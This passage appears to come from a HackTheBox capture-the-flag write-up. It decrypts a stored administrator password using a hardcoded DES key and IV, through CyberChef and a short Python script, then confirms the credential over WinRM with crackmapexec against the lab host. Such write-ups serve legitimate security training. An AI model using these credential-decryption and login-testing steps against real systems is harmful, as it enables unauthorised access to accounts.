 
### Decrypt Password

#### CyberChef

The script shows the key and IV for the DES decryption.
[CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64\('A-Za-z0-9%2B/%3D',true\)DES_Decrypt\(%7B'option':'Latin1','string':'7ly6UznJ'%7D,%7B'option':'Latin1','string':'XuVUm5fR'%7D,'CBC','Raw','Raw'\)&input=T2RoN04zTDlhVlE4L3NyZFpnRzJoSVIwU1NKb0pLR2k)
will take care of this very quickly:

![image-20210416095920623](https://0xdfimages.gitlab.io/img/image-20210416095920623.png)

#### Python

Alternatively, it’s not a big jump to modify the Python script from the
exploit to something like:

    
    
    #!/usr/bin/env python3
    
    import base64
    from des import * #python3 -m pip install des
    import sys
    
    try:
            path = sys.argv[1]
    except:
            exit("Supply base64-encoded encrypted password as argv1")
    
    def decrypt(hash):
            hash = base64.b64decode(hash.encode('utf-8'))
            key = DesKey(b"7ly6UznJ")
            return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')
    
    print(f'Decrypted Password: {decrypt(sys.argv[1])}')
    

It no longer needs the JSON parsing, just take the encpryted password and
decrypt it (I renamed the `decode` function to `decrypt`, but didn’t change
anything else about it). It works:

    
    
    oxdf@parrot$ python3 decrypt.py "Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi"
    Decrypted Password: kidvscat_admin_@123
    

### WinRM

With this password associated with the administrator username, my first
thought is to see if it can be used for WinRM.
[crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec) says yes:

    
    
    oxdf@parrot$ crackmapexec winrm 10.10.10.237 -u administrator -p 'kidvscat_admin_@123'
    WINRM       10.10.10.237    5985   NONE             [*] None (name:10.10.10.237) (domain:None)
    WINRM       10.10.10.237    5985   NONE             [*] http://10.10.10.237:5985/wsman
    WINRM       10.10.10.237    5985   NONE             [+] None\administrator:kidvscat_admin_@123 (Pwn3d!)
    